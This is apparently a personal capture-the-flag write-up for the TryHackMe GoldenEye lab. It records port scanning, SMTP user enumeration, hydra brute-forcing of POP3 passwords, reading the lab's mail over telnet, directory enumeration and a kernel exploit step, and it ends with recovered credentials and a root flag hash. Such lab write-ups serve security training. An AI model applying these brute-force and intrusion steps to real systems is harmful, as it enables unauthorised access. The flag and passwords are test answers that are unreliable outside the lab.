 #+TITLE: 007

* nmap

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
└──╼ # nmap -sC -sV -oA nmap/scan 10.10.88.210 -p-
Starting Nmap 7.91 ( https://nmap.org  ) at 2020-11-13 08:00 EST
Nmap scan report for 10.10.88.210
Host is up (0.11s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE     VERSION
25/tcp    open  smtp        Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: GoldenEye Primary Admin Server
55006/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
|_ssl-date: TLS randomness does not represent time
55007/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: STLS AUTH-RESP-CODE UIDL RESP-CODES SASL(PLAIN) USER CAPA TOP PIPELINING
|_ssl-date: TLS randomness does not represent time

        Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
        Nmap done: 1 IP address (1 host up) scanned in 440.38 seconds

#+end_src

* website
view-source:http://10.10.88.210/terminal.js
- hash
  : &#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
  - cracked
    : InvincibleHack3r

#+begin_src js

        var data = [
  {
    GoldenEyeText: "<span><br/>Severnaya Auxiliary Control Station<br/>****TOP SECRET ACCESS****<br/>Accessing Server Identity<br/>Server Name:....................<br/>GOLDENEYE<br/><br/>User: UNKNOWN<br/><span>Naviagate to /sev-home/ to login</span>"
  }
];

//
//Boris, make sure you update your default password.
//My sources say MI6 maybe planning to infiltrate.
//Be on the lookout for any suspicious network traffic....
//
//I encoded you p@ssword below...
//
//&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
//
//BTW Natalya says she can break your codes
//

var allElements = document.getElementsByClassName("typeing");
for (var j = 0; j < allElements.length; j++) {
  var currentElementId = allElements[j].id;
  var currentElementIdContent = data[0][currentElementId];
  var element = document.getElementById(currentElementId);
  var devTypeText = currentElementIdContent;


  var i = 0, isTag, text;
  (function type() {
    text = devTypeText.slice(0, ++i);
    if (text === devTypeText) return;
    element.innerHTML = text + `<span class='blinker'>&#32;</span>`;
    var char = text.slice(-1);
    if (char === "<") isTag = true;
    if (char === ">") isTag = false;
    if (isTag) return type();
    setTimeout(type, 60);
  })();
}

#+end_src

* msf

#+begin_src bash

msf6 auxiliary(scanner/smtp/smtp_enum) > run

        [*] 10.10.88.210:25       - 10.10.88.210:25 Banner: 220 ubuntu GoldentEye SMTP Electronic-Mail agent
        [+] 10.10.88.210:25       - 10.10.88.210:25 Users found: , backup, bin, daemon, games, gnats, irc, libuuid, list, lp, mail, man, messagebus, news, nobody, postfix, postgres, postmaster, proxy, sync, sys, syslog, uucp, www-data
        [*] 10.10.88.210:25       - Scanned 1 of 1 hosts (100% complete)
        [*] Auxiliary module execution completed

#+end_src

* hydra

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
└──╼ # hydra -l doak -P /usr/share/wordlists/fasttrack.txt pop3://10.10.88.137:55007
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-13 11:31:22
        [INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
        [DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
        [DATA] attacking pop3://10.10.88.137:55007/
        [STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
        [STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
        [55007][pop3] host: 10.10.88.137   login: doak   password: goat
        1 of 1 target successfully completed, 1 valid password found
        Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-13 11:33:46

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
└──╼ # hydra -l boris -P /usr/share/wordlists/fasttrack.txt pop3://10.10.88.137:55007
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-13 09:31:02
        [INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
        [WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
        [DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
        [DATA] attacking pop3://10.10.88.137:55007/
        [STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
        [STATUS] 64.00 tries/min, 128 tries in 00:02h, 94 to do in 00:02h, 16 active
        [55007][pop3] host: 10.10.88.137   login: boris   password: secret1!
        1 of 1 target successfully completed, 1 valid password found
        Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-13 09:33:53

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
└──╼ # hydra -l natalya -P /usr/share/wordlists/fasttrack.txt pop3://10.10.88.137:55007
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

        Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-13 09:36:34
        [INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
        [DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
        [DATA] attacking pop3://10.10.88.137:55007/
        [STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
        [55007][pop3] host: 10.10.88.137   login: natalya   password: bird
        [STATUS] 111.00 tries/min, 222 tries in 00:02h, 1 to do in 00:01h, 15 active
        1 of 1 target successfully completed, 1 valid password found
        Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-13 09:38:38

#+end_src

* pop3
#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
└──╼ # telnet 10.10.88.137 55007
Trying 10.10.88.137...
Connected to 10.10.88.137.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
user doak
+OK
pass goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
                for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
                Message-Id: <20180425034731.97DC24549D@ubuntu>
                Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
                From: doak@ubuntu

                James,
                If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

                Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

                username: dr_doak
                password: 4England!

- more creds

  : username: xenia
  : password: RCP90rulez!

- we manage to log in using creds
 : boris

  - LIST
    +OK 3 messages:
    1 544
    2 373
    3 921

- RETR 1
  +OK 544 octets
  Return-Path: <root@127.0.0.1.goldeneye>
  X-Original-To: boris
  Delivered-To: boris@ubuntu
  Received: from ok (localhost [127.0.0.1])
          by ubuntu (Postfix) with SMTP id D9E47454B1
                  for <boris>; Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
                  Message-Id: <20180425022326.D9E47454B1@ubuntu>
                  Date: Tue, 2 Apr 1990 19:22:14 -0700 (PDT)
                  From: root@127.0.0.1.goldeneye

                  Boris, this is admin. You can electronically communicate to co-workers and students here. I'm not going to scan emails for security risks because I trust you and the other admins here.

- RETR 2
  +OK 373 octets
  Return-Path: <natalya@ubuntu>
  X-Original-To: boris
  Delivered-To: boris@ubuntu
  Received: from ok (localhost [127.0.0.1])
          by ubuntu (Postfix) with ESMTP id C3F2B454B1
                  for <boris>; Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
                  Message-Id: <20180425024249.C3F2B454B1@ubuntu>
                  Date: Tue, 21 Apr 1995 19:42:35 -0700 (PDT)
                  From: natalya@ubuntu

                  Boris, I can break your codes!

- RETR 3
  +OK 921 octets
  Return-Path: <alec@janus.boss>
  X-Original-To: boris
  Delivered-To: boris@ubuntu
  Received: from janus (localhost [127.0.0.1])
          by ubuntu (Postfix) with ESMTP id 4B9F4454B1
                  for <boris>; Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
                  Message-Id: <20180425025235.4B9F4454B1@ubuntu>
                  Date: Wed, 22 Apr 1995 19:51:48 -0700 (PDT)
                  From: alec@janus.boss

                  Boris,

                  Your cooperation with our syndicate will pay off big. Attached are the final access codes for GoldenEye. Place them in a hidden file within the root directory of this server then remove from this email. There can only be one set of these acces codes, and we need to secure them for the final execution. If they are retrieved and captured our plan will crash and burn!

                  Once Xenia gets access to the training site and becomes familiar with the GoldenEye Terminal codes we will push to our final stages....

                  PS - Keep security tight or we will be compromised.

: natalya
- ┌─[✗]─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
  └──╼ # telnet 10.10.88.137 55007
  Trying 10.10.88.137...
  Connected to 10.10.88.137.
  Escape character is '^]'.
  +OK GoldenEye POP3 Electronic-Mail System
  user natalya
  +OK
  pass bird
  +OK Logged in.
  LIST
  +OK 2 messages:
  1 631
  2 1048
  .
  RETR 1
  +OK 631 octets
  Return-Path: <root@ubuntu>
  X-Original-To: natalya
  Delivered-To: natalya@ubuntu
  Received: from ok (localhost [127.0.0.1])
          by ubuntu (Postfix) with ESMTP id D5EDA454B1
                  for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
                  Message-Id: <20180425024542.D5EDA454B1@ubuntu>
                  Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
                  From: root@ubuntu

                  Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

                  Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
                  .
                  RETR 2
                  +OK 1048 octets
                  Return-Path: <root@ubuntu>
                  X-Original-To: natalya
                  Delivered-To: natalya@ubuntu
                  Received: from root (localhost [127.0.0.1])
                          by ubuntu (Postfix) with SMTP id 17C96454B1
                                  for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
                                  Message-Id: <20180425031956.17C96454B1@ubuntu>
                                  Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
                                  From: root@ubuntu

                                  Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)

                                  Ok, user creds are:

                                  username: xenia
                                  password: RCP90rulez!

                                  Boris verified her as a valid contractor so just create the account ok?

                                  And if you didn't have the URL on outr internal Domain: severnaya-station.com/gnocertdir
                                  **Make sure to edit your host file since you usually work remote off-network....

                                  Since you're a Linux user just point this servers IP to severnaya-station.com in /etc/hosts.


#+end_src

* gobuster

http://severnaya-station.com/gnocertdir/blog/

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/007]
└──╼ # gobuster dir -u http://severnaya-station.com/gnocertdir/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://severnaya-station.com/gnocertdir/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/13 10:47:52 Starting gobuster
===============================================================
/blog (Status: 301)
/rss (Status: 301)
/login (Status: 301)
/files (Status: 301)
/user (Status: 301)
/calendar (Status: 301)
/admin (Status: 301)
/comment (Status: 301)
/report (Status: 301)
/local (Status: 301)
/pix (Status: 301)
/tag (Status: 301)
/group (Status: 301)
/my (Status: 301)
/install (Status: 301)
/lib (Status: 301)
/portfolio (Status: 301)
/notes (Status: 301)
/message (Status: 301)
/lang (Status: 301)
/theme (Status: 301)
/blocks (Status: 301)
/tags (Status: 200)
/question (Status: 301)
/backup (Status: 301)
/rating (Status: 301)
/filter (Status: 301)
/mod (Status: 301)
/auth (Status: 301)
/course (Status: 301)
/error (Status: 301)
/repository (Status: 301)
/webservice (Status: 301)
/plagiarism (Status: 301)
Progress: 26642 / 87665 (30.39%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/13 10:52:29 Finished
===============================================================

#+end_src



* moodle
Moodle is an open source (webbased) learning
users all over the world in educational inst
companies. See vendor homepage for details.

* creds
- admin
  : xWinter1995x!
* exploit
- uname -a
  : 3.13.0
  - replacing gcc with cc inside the file
    : sed -i "s/gcc/cc/g" 37292.c
https://tryhackme.com/room/goldeneye
- root
  : 568628e0d993b1973adc718237da6e93
